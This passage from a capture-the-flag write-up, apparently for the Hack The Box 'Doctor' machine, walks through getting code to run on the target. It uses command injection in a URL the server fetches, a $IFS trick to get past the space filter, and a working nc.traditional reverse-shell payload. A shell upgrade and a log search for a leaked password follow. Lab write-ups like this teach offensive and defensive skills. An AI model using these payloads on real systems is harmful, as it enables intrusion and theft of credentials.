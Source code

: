 {%highlight text%}
python3 -m http.server 15000
Serving HTTP on 0.0.0.0 port 15000 (http://0.0.0.0:15000/) ...
10.10.10.209 - - [18/Oct/2020 09:55:54] "GET / HTTP/1.1" 200 -
{%endhighlight%}

Next I think what if it uses something like curl to make the requests? Then I might be able to injection some code. So I try some chaining techniques and one finally worked.

{%highlight text%}
http://10.10.12.22:15000/$(whoami)

10.10.10.209 - - [18/Oct/2020 09:57:32] "GET /web HTTP/1.1" 404 -
{%endhighlight%}

YESS! We can see the user "web" with the web request. Next I try to use this to method to maybe get a netcat connection. But when I use spaces between my command and post the message I get an error saying that the URL is invalid. That makes sense because you dont see spaces in a URL. I had to find a way to bypass that.

After some searching I see that you can use "$IFS" wherever you want a space in a command. IFS is a variable that is used for field separation. But even after properly constructing my payload I still was not getting a connection. Two possibilities are that netcat was not installed OR the version of netcat did not support the "-e" flag. I search and find that you can use "nc.tradtional" to use the old version of netcat. 

This was the final payload which worked.

{%highlight text%}
http://10.10.12.22:15000/$(nc.traditional$IFS'10.10.12.22'$IFS'1234'$IFS-e$IFS'/bin/bash')
{%endhighlight%}

And I get a netcat connection after posting the message. The hard part is now over.

{%highlight text%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from doctors.htb 58944 received!
whoami
web
python3 -c 'import pty;pty.spawn("/bin/bash")'       
web@doctor:~$ 
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
{%endhighlight%}

We already have a clue for what to do next. We see with the "id" command that we are in the "adm" group. This means that we have the permissions to read the log files. I hop on over to the `/var/log` directory and started grepping for things like password,user, shaun(another user on system) etc.

After some grepping I find possible password for user shaun.

{%highlight text%}
grep -r password

apache2/error.log:[Sun Oct 18 03:43:47.383350 2020] [php7:error] [pid 641915] [client 10.10.14.206:34630] script '/var/www/html/resetpassword.php' not found or unable to stat
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
apache2/error.log.1:[Sat Oct 17 12:38:31.996156 2020] [php7:error] [pid 4366] [client 10.10.14.35:41188] script '/var/www/html/reset.php' not found or unable to stat

{%endhighlight%}
